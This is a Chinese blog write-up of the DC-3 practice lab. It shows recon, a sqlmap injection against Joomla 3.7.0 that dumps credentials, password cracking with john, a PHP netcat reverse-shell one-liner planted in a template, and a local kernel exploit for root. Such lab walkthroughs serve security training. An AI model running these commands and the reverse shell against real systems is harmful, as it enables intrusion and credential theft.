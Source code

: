 ```yaml
---
layout: post
title: DC-3
subtitle: DC-3
date: 2025-07-09 08:57
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 环境配置

[解决：DC-3 IDE 设备(兹盘/CD-ROM)配置不正确。“ide0:1“上具有 个 IDE 从设备但没有主设备。此配置在虚拟机中 无法正常运行](https://blog.csdn.net/qq_50377269/article/details/137790190)

### 信息搜集

主机发现：`192.168.163.131`

![image.png300](https://img.ghostliner.top/pXvsQf.png)

端口扫描

![image.png300](https://img.ghostliner.top/K2a1g5.png)

访问网站 http://192.168.163.131/ 获得提示

```shell
dirb http://192.168.163.131/
nikto -h 192.168.163.131
```

扫描目录发现后台登录 http://192.168.163.131/administrator/index.php

`whatweb` 发现网站框架 `Joomla`

![image.png300](https://img.ghostliner.top/4qww6f.png)

`joomscan` 扫描获取详细信息 版本 `Joomla 3.7.0`
### 渗透测试

搜索版本漏洞

![image.png300](https://img.ghostliner.top/JUEDGl.png)
#### 数据库爆破

查看 `/usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image.png300](https://img.ghostliner.top/IgBLKX.png)

使用该命令：
```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

获取到数据库
![image.png300](https://img.ghostliner.top/RNZXpV.png)

```shell
# 获取表
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb --tables --batch
# 获取列 不能用--batch
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' --columns
# 获取用户名 密码
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

<table>
	<tr>
		<td><center><img src="https://img.ghostliner.top/mD6eR2.png"></center></td>
		<td><center><img src="https://img.ghostliner.top/ajK0Ne.png"></center></td>
	</tr>
</table>

获取到用户名、密码

![image.png](https://img.ghostliner.top/SDg7ss.png)


Joomla 使用 `#__` 作为数据库表名的**动态前缀占位符**，若安装时前缀设为 `jos_`，则实际表名为 `jos_users` 

将密码保存到 `pass.txt` 破解密码

```shell
john --wordlist=/usr/share/wordlists/john.lst pass.txt
# snoopy           (?)

# 若显示不需要破解，说明之前已破解过，执行命令
john --show pass.txt
```
#### 反弹shell

尝试登录网站后台，成功。
在拓展-》模板-》beez3 可以上传php文件，上传反弹shell脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');?>

# kali执行 nc -lvvp 4444
```


```mermaid
graph TD
    A[攻击者输入命令] --> B[Netcat 4444端口]
    B --> C["/tmp/f 管道"]
    C --> D["cat 读取命令"]
    D --> E["/bin/sh 执行命令"]
    E --> F[命令结果]
    F --> B[Netcat发回攻击者]
```

根据之前扫描发现的目录，尝试访问 `http://192.168.163.131/templates/beez3/shell.php`

![image.png](https://img.ghostliner.top/LM3Bjc.png)

访问成功，连接到kali，`sudo -l` , `find` 提权失败，根据提示进行系统提权

```shell
cat /etc/issue
# Ubuntu 16.04 LTS \n \l
```
#### 系统提权

```shell
searchsploit ubuntu 16.04
searchsploit -p linux/local/39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

按文件内容下载 https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip 只需要 `exploit.tar` 文件

利用一句话木马和蚁剑，上传文件
![image.png](https://img.ghostliner.top/EOXJpA.png)

`tar -xvf exploit.tar` 解压文件，cd进目录，执行以下命令，即可获得root权限

```shell
./compile.sh
./doubleput
```

![image.png](https://img.ghostliner.top/MIXHhV.png)
